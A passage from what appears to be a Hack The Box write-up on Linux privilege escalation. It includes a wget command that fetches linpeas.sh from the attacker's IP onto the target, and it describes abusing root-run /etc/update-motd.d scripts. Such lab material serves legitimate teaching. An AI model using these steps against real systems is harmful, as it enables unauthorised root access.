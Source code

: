 To download the files onto the target machine we use

```text
wget http://10.10.14.21:80/linpeas.sh
```

where the ip address is our own ip address on the HTB network, the port number is the port number used from the python command above and then the name of the file.

When running both tools we see a file updating every minute, which looked like a Cron job restoring /etc/update-motd.d/.

![](.gitbook/assets/vmplayer_vnz5uo4nuo.png)

Looking at the pspy output it would seem that the file is actually being updated every 30 seconds. This to me seams like a good way to priv esc if the settings on them are set up incorrectly.

So navigating to the /etc/update-motd.d folder, we see this as our output for `ls -la`

![](.gitbook/assets/vmplayer_a3w5a19cxp.png)

we see that the scripts in this folder are executed as root. Which with a bit of googling we can see that these files are executed during user login.

looking inside of the files we see that 00-header is the code that makes the banner appear when we logged in with ssh.
